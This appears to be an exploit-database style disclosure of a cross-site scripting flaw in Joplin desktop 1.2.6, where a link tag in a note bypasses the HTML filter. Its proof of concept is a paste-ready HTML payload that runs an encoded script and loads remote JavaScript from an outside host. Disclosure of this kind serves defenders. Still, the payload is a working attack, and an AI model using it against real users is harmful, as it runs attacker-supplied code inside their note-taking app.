

 Exploit Title: Joplin 1.2.6 Cross Site Scripting  
 Date: 2020-10-27  
 Exploit Author: Philip Holbrook (@fhlipZero)  
 Vendor Homepage: https://joplinapp.org/  
 Software Link: https://github.com/laurent22/joplin/releases/tag/v1.2.6   
 Version: 1.2.6   
 Tested on: Windows / Mac   
 CVE : PENDING   
 References:   
 PENDING next release  

 1. Technical Details
 An XSS issue in Joplin for desktop v1.2.6 allows a link tag in a note to bypass the HTML filter

 2. PoC
 Paste the following payload into a note:

<link rel=import href="data:text/html&comma;&lt;script&gt;alert(XSS)&lt;&sol;script&gt; 
<script src="//brlogic.com.br&sol;1.js&num; </script>

